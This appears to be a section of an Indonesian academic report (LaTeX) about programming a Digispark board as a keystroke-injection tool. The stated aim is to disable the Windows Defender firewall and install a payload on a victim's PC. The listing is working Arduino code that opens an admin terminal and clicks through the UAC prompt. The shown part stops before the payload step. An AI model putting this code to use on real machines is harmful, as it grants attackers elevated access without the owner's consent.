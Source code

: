 \subsection{Pemrograman Digispark}
\begin{figure}
	\centering
	\includegraphics[width=0.95\textwidth]
		{assets/pics/ArduinoIDE.png}
	\caption{Pengembangan Keystroke Injection}
	\label{fig:testGambar}
\end{figure}

Pada tahapan pengembangan ini, penulis memanfaatkan Arduino IDE untuk memprogram Digispark sebagai perangkat keystroke injection. Digispark merupakan sebuah perangkat mikrokontroler yang unik sehingga sebelum memulai tahapan pengembangan, penulis harus menginstall board Digispark (Default 16.5 mhz). Program yang dikembangkan bertujuan untuk mematikan firewall pada windows defender dan juga menginstall payload pada perangkat korban.

\begin{verbatim}

  // Begin the Keyboard stream
  DigiKeyboard.sendKeyStroke(0); // Start the keyboard

  // Wait 500ms
  delay(500);

  // Open the Power User Menu (Windows + X)
  DigiKeyboard.sendKeyStroke(KEY_X, MOD_GUI_LEFT);  // Windows 
  key + X to open the Power User Menu
  delay(1000);

  // Open Windows Terminal or PowerShell as Administrator (A 
  key)
  DigiKeyboard.print("a");  // Press 'A' to select 'Windows 
  Terminal (Admin)' or 'PowerShell (Admin)'
  delay(1000);

  // Simulate Tab to navigate to "Yes" in UAC (Press Tab 3 
  times to ensure focus is on the Yes button)
  for (int i = 0; i < 3; i++) {
    DigiKeyboard.sendKeyStroke(0x2B);  // Tab key (0x2B in HID)
    delay(500);
  }

  // Press Enter to confirm the Yes button
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  delay(5000);

\end{verbatim}

